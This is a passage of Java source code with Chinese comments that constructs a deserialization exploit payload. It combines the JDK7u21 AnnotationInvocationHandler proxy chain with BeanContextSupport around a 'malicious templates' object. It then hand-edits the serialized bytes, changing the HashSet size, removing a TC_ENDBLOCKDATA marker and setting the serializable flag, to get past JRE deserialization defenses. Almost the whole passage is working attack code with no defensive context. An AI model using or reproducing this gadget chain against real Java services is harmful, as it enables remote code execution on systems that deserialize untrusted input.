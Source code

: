 ```java
        map.put("f5a5a608", "zero");

        Constructor handlerConstructor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructor(Class.class, Map.class);
        handlerConstructor.setAccessible(true);
        InvocationHandler tempHandler = (InvocationHandler) handlerConstructor.newInstance(Templates.class, map);

        // 为tempHandler创造一层代理
        Templates proxy = (Templates) Proxy.newProxyInstance(jdk7u21.class.getClassLoader(), new Class[]{Templates.class}, tempHandler);
        // 实例化HashSet，并将两个对象放进去
        HashSet set = new LinkedHashSet();
        // 将恶意templates设置到map中
        map.put("f5a5a608", templates);
        // jdk7u21 end


        BeanContextSupport bcs = new BeanContextSupport();
        Class cc = Class.forName("java.beans.beancontext.BeanContextSupport");

        Field beanContextChildPeer = cc.getSuperclass().getDeclaredField("beanContextChildPeer");
        beanContextChildPeer.set(bcs, bcs);

        set.add(bcs);

        //序列化
        ByteArrayOutputStream baous = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baous);

        oos.writeObject(set);
        oos.writeObject(tempHandler);
        oos.writeObject(templates);
        oos.writeObject(proxy);
        oos.close();

        byte[] bytes = baous.toByteArray();
        System.out.println("[+] Modify HashSet size from  1 to 3");
        bytes[89] = 3; //修改hashset的长度（元素个数）

        //调整 TC_ENDBLOCKDATA 标记的位置，先暂时删除
        //0x73 = 115, 0x78 = 120
        //0x73 for TC_OBJECT, 0x78 for TC_ENDBLOCKDATA
        for(int i = 0; i < bytes.length; i++){
            if(bytes[i] == 0 && bytes[i+1] == 0 && bytes[i+2] == 0 & bytes[i+3] == 0 &&
                    bytes[i+4] == 120 && bytes[i+5] == 120 && bytes[i+6] == 115){
                System.out.println("[+] Delete TC_ENDBLOCKDATA at the end of HashSet");
                bytes = Util.deleteAt(bytes, i + 5);
                break;
            }
        }

        //将 serializable 的值修改为 1
        //0x73 = 115, 0x78 = 120
        //0x73 for TC_OBJECT, 0x78 for TC_ENDBLOCKDATA
        for(int i = 0; i < bytes.length; i++){
            if(bytes[i] == 120 && bytes[i+1] == 0 && bytes[i+2] == 1 && bytes[i+3] == 0 &&
                    bytes[i+4] == 0 && bytes[i+5] == 0 && bytes[i+6] == 0 && bytes[i+7] == 115){
                System.out.println("[+] Modify BeanContextSupport.serializable from 0 to 1");
                bytes[i+6] = 1;
                break;
            }
        }
```